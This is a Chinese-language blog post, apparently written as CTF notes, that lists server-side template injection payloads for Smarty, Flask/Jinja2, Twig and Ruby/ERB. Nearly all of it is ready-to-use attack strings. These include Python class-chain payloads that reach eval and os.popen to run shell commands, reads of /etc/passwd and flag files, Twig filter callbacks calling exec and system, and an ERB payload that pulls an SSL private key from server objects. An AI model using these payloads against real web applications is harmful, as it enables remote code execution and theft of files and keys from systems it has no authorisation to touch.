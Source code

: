 ```yaml
---
title: 模板注入常见payload
date: 2020-04-23 09:42:21
updated: 2020-04-23 09:42:21
categories: web
---
```


模板(smart、Flask、jinjia2、TWIG、Ruby/ERB)注入常见payload<!--more-->

![](https://img.npfs06.top/20210306094545.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## smarty注入payload

{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat ../../../flag')}{/if} 

{system('cat /flag')}
Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令

---

* ().__class__.__bases__ [0] .__subclasses__() [40] (r'/etc/passwd').read()
* ().__class__.__bases__ [0] .__subclasses__() [59] .__init__.func_globals.values() [13]\['eval']('__import__("os").popen("ls /").read()' )

---



于是把id换成`ls -a`这里一定要`-a`，本来开局我就拿到了shell，但是因为没有加`-a`，于是没有想到flag在上目级录

执行`{{ b['eval'] ('__import__("os").popen(""cat ../flag"").read()') }}`



## FLASK

```
().__class__.__bases__[0].__subclasses__() 
---查看可用模块

().__class__.base__.__subclasses__().index(warnings.catch_warnings)
可以查看当前位置，不过题目环境不能用。手动数吧= = 169位

{{().__class__.__bases__[0].__subclasses__()[169].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}

 {{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls /').read()")}}
发现可以执行，构造命令

{{''.__class__.__mro__[1].__subclasses__()
[169].__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
没有什么过滤= =友好!

```

```
或者找到os._wrap_close模块 117个
{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('dir').read()}}  

当前文件夹

{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('cat /flag').read()}}
来打开文件，payload有很多慢慢摸索慢慢积累= =

```

```
内含os模块的类 class'site._Printer'   （不需要import os）
       a. 目录查询
        {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
        因为这里listdir同样被ban了
      b.  读取目录flasklight
        {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()}}
       c. 读取flag
        {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()}}
```



## jinjia2

```
测试：  {{7*'7'}}  #输出7777777
{% if 1 %}1{% endif %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()") }}{% endif %}{% endfor %}
```


```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}{% endif %}{% endfor %}
```
直接注入

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt').read()}}{% endif %}{% endfor %}
```

```

```



## TWIG

```
测试： {{7*'7'}}  #输出49
测试：  {#comment#}{{7*7}}   #输出49
这里{#comment#}是twig独有的注释符
```

![](https://img.npfs06.top/20210306094611.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

```

{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
rce

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{['cat /etc/passwd']|filter('system')}}

POST /subscribe?0=cat+/etc/passwd HTTP/1.1
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
```





##   Ruby/ERB

<%=语法可以用来执行Ruby语句，并会尝试将结果转换为字符串，以附在最终的结果文本中。我们可以使用如下攻击载荷来尝试执行数学运算：

```
ruby <%= 7 * 7 %>
ruby <%= File.open(‘/etc/passwd’).read %>
ruby <%= self %>    //枚举该对象可用的属性及方法
ruby <%= self.class.name %>   //获取self对象的类名
ruby <%= self.methods %>
ruby <%= self.method(:handle_POST).parameters %>  //获取目标所需的具体参数
ruby <%= session.class.name %>
ruby <%= self.instance_variables %>
ruby <% ssl=@server.instance_variable_get(:@ssl_context) %><%= ssl.instance_variables %>
ruby <% ssl = @server.instance_variable_get(:@ssl_context) %><%= ssl.instance_variable_get(:@key) %>   //提取key值
```